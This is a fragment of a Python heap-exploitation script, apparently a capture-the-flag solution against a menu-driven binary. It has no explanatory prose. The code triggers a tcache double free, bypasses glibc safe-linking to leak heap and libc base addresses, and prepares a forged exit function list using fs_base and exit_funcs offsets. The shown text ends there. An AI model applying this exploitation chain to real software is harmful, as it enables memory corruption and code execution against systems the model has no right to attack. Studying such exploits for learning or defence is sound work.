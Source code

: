 ```python
def delete(idx):
    cmd(2)
    p.sendline(str(idx).encode())

def overwrite_data(addr, data, dummyIdx, idx):
    global heap_base
    add(0, p64(0)*2)
    delete(0)
    add(0, p64(0)*2)
    delete(0)
    add(0, p64(safe_link(heap_base+0x2a0, addr)))
    add(dummyIdx, b'dummy')
    add(idx, data)

add(0, "double free")

add(1, b'victim')

for i in range(2,6):
    add(i, str(i).encode())

add(6, b'guard chunk') # to avoid consolidating with top chunk

delete(0)

add(0, p64(0) * 2) #overwrite tcache_entry.next & key

delete(0)#double free

cmd(3)

p.recvuntil(b'->')
ptr = u64(p.recvline()[:-1].ljust(8, b'\x00'))

print(hex(ptr))
print(hex(decrypt_safe_linking(ptr)))
heap_base = decrypt_safe_linking(ptr) - 0x2a0
print(hex(heap_base))

add(0, p64(safe_link(heap_base + 0x2a0, heap_base + 0x2a0 + 0x10)))

add(7, b'dummy')

add(8, p64(0) + p64(0xa1))

# octuple free

delete(1)
for i in range(7):
    add(1, b'A'*0xf)
    delete(1)

cmd(3)

p.recvuntil(b'->')
libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x219ce0

print(hex(libc_base))

exit_funcs = libc_base + 0x219838
fs_base = libc_base - 0x28c0
initial = libc_base + 0x21af00
fake_exit_function_list = heap_base + 0x2a8
```